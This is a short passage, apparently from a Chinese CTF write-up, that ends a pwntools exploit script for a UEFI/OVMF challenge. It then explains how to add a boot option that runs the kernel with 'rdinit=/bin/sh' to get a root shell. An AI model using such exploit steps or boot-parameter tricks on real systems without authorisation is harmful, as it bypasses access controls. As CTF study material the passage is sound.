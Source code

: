 ```assembly
    send_key("down", 3)
    send_key("enter")

    # root shell
    # p.sendlineafter(b"/ #", b"cat /flag")
    p.interactive()


if __name__ == "__main__":
    exp()
```

> 开始没想到加启动项这个步骤也能成为一个坑点...其实可以编译一份原版OVMF.fd，进入`Boot Maintenance Manager`，进入` Boot Options`，选择`Add Boot Option`，选择内核镜像`bzImage`，设置启动项名称`rootshell`，设置内核启动的附加参数`console=ttyS0 initrd=rootfs.img rdinit=/bin/sh quiet`，最后返回主页面选择启动项菜单，找到`rootshell`这一项

参考：

https://eqqie.cn/index.php/archives/1929

